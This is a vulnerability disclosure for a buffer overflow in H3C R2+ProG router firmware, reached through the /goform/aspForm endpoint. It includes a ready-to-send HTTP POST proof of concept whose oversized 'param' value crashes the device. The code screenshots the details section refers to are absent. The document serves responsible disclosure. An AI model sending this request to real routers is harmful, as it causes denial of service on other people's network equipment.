





# Information


**Vendor of the products:** New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C R2+ProG

**Affected firmware version:** <=V200R004

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20R2+ProGV200R004%EF%BC%88%E4%BB%85%E9%80%82%E7%94%A8%E4%BA%8E%E5%8E%9F%E5%85%88%E7%89%88%E6%9C%AC%E4%B8%BAV200%E7%B3%BB%E5%88%97%E7%9A%84%E8%AE%BE%E5%A4%87%EF%BC%89%E7%89%88%E6%9C%AC%E5%8F%8A%E8%BD%AF%E4%BB%B6%E8%AF%B4%E6%98%8E%E4%B9%A6&s=7597052)

# Overview

A serious buffer overflow vulnerability was found in H3C R2+ProG router. The vulnerability can be initiated through the /goform/aspForm route. By sending an HTTP POST request to construct the param field, the program may crash. Denial of service attacks can be achieved through the following functions UpdateWanParams/AddMacList/EditMacList/AddWlanMacList/EditWlanMacList/Edit_BasicSSID/Edit_GuestSSIDFor2P4G/Edit_BasicSSID_5G/SetAPInfoById

# Vulnerability details

Although the length of the parameter is limited to no more than 0x200 bytes, since the length of the v27 array is only 64 bytes, a buffer overflow will occur when formatting below



The following related components also involve similar problems, leading to buffer overflow








# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=UpdateWanParams&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

